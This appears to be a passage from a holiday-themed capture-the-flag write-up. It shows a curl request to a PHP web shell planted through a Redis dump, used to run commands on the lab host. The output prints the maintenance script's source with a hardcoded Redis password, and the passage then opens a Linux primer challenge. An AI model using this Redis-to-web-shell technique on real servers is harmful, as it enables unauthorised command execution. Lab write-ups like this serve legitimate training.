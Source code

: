 ```sh
#   /    \  A  /    \
#         \/ \/
# 
echo "Something is wrong with this page! Please use http://localhost/maintenance.php to see if you can figure out what's going on"?>
example1The site is in maintenance modeexample2#We think there's a bug in index.php�S�
```

Decided to open the ```maintenance.php``` file for my own viewing.

```sh
player@61e8c9c01a21:~$ curl --output - http://localhost/moretesting.php?command=cat%20maintenance.php
REDIS0009�      redis-ver5.0.3�
�edis-bits�@�ctime(�_used-mem
 aof-preamble��� test!<?php
$redis_password = "R3disp@ss";
if(!isset($_REQUEST['cmd']) || $_REQUEST['cmd'] == '') {
    die("\n\nERROR: 'cmd' argument required (use commas to separate commands); eg:\ncu
rl http://localhost/maintenance.php?cmd=help\ncurl http://localhost/maintenance.php?cm
d=mget,example1\n\n");
}
# Pull apart the command, escape it, and put it back together
$cmd = implode(' ', array_map('escapeshellarg', explode(',', $_REQUEST['cmd'])));
if(strpos($cmd, 'scan') !== false) {
  die("'scan' is not allowed");
}
if(strpos($cmd, 'requirepass') !== false) {
  die("'requirepass' is not allowed");
}
$cmd = "redis-cli --raw -a '$redis_password' $cmd";
echo "Running: " . str_replace($redis_password, '<password censored>', $cmd) . "\n\n";
$result = shell_exec($cmd);
echo $result;
?>
example2#We think there's a bug in index.phexample1The site is in maintenance mode��:H��(
```

#### F1 - Courtyard - Linux Primer

The North Pole 🍭 Lollipop Maker:
All the lollipops on this system have been stolen by munchkins. Capture munchkins by following instructions here and 🍭's will appear in the green bar below. Run the command "hintme" to receive a hint.

###### Solution

The idea of this seems to be you run through the commands until you obtain all of the lollipops. When you're done completing the mini-challenges, you complete the callenge.

First starts out with this:

```txt
The North Pole 🍭 Lollipop Maker:
All the lollipops on this system have been stolen by munchkins. Capture munchkins by following instructions here and 🍭's will appear in the green bar below. Run the command "hintme" to receive a hint.
```
